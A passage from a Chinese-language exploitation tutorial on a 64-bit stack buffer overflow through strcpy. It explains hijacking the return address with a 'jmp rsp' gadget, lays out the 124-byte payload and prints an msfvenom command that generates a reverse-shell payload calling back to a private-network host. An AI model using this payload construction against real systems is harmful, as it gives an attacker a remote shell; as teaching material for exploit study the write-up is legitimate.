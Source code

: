 方向：需要去找到一个可以调用完整的 shellcode 的地址  
1）进行函数调用时会先把返回地址放到栈里  
2）当函数调用完会根据返回地址回到原本的地方  
3）所以所返回地址是个可以执行的地方  
4）如果让返回地址指向一个去的地方（放了 shellcode 的地方），那么他就会执行这个地方的东西（所以可以找有无 call rsp 或者 jmp rsp 的指令）

[![](assets/1703831476-cc31e973126c92c5589a52a3e553f0f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224941-2a68c456-a4c7-1.png)

（call, 执行函数调用。当 CPU 执行 call 指令时，首先会把 rip 寄存器的值入栈，然后设置 rip 值为目标地址，由于 rip 寄存 器的值决定了下一条 CPU 需要执行指令的位置，所以当 CPU 执行完成当前 call 指令后就会跳转到目标地址。）  
地址 0x400cfb 会跳转到 rsp 位置，地址长度三个字节，满足之前测试的 RIP 最多只能覆盖 4 个字节的要求

#### 3.6 shellcode 构造、生成

1.  使用 msfvenom 构建 shell\_reverse\_tcp，生成大小为 119
2.  基于 112 个 A+8 个 B+4 个 C 的分析，【shellcode】+【填充字符】+【return\_rsp】 = 124
3.  此外，这个程序使用 strcpy 来触发溢出，所以 shellcode 里不能含有 null 字符 \\x00，不然会截断。
4.  注意：地址 0x400cfb 要倒过来写，不足 8 位用 0 补齐到 8 位为止。

```plain
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=192.168.80.129 LPORT=3311 -b '\x00' -f python -o shell3333

cat shell3333 |awk -F ' b' '{print $2}'|tr -d '\n"'
```

[![](assets/1703831476-77e60473ffef8fe618ae3e21a9420064.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224847-0a9484e4-a4c7-1.png)
